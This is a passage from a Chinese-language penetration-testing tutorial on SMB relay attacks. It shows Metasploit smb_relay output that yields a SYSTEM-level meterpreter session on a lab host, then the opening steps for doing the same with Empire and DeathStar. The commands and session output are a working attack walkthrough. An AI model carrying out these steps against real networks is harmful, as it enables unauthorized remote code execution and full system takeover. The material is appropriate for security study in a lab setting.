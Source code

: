```plain
[*] Closing service handle...
[*] Opening service...
[*] Starting the service...
[*] Removing the service...
[*] Sending stage (179779 bytes) to 192.168.188.128
[*] Closing service handle...
[*] Deleting \hGaRjHmf.exe...
```

然后直接getshell，还是system权限，因为调用了系统服务：

```plain
msf exploit(windows/smb/smb_relay) > sessions 
Active sessions
===============
  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  1         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ X-90E984B4C76D4  192.168.188.136:4444 -> 192.168.138.188:1034 (192.168.188.128)
```

##### Empire

我们也可以使用Empire来进行SMB中继攻击测试，具体步骤如下所示：  
Step 1：启动Empire并清除agent

```plain
./empire --rest --username username --password 123456
```

[![](assets/1701222524-ba60e14f5a953a1fdb21b17fe5c0e6b1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144524-b55fac34-8db9-1.png)  
Step 2：启动Deathstar，ip为攻击机ip，为了接管agent
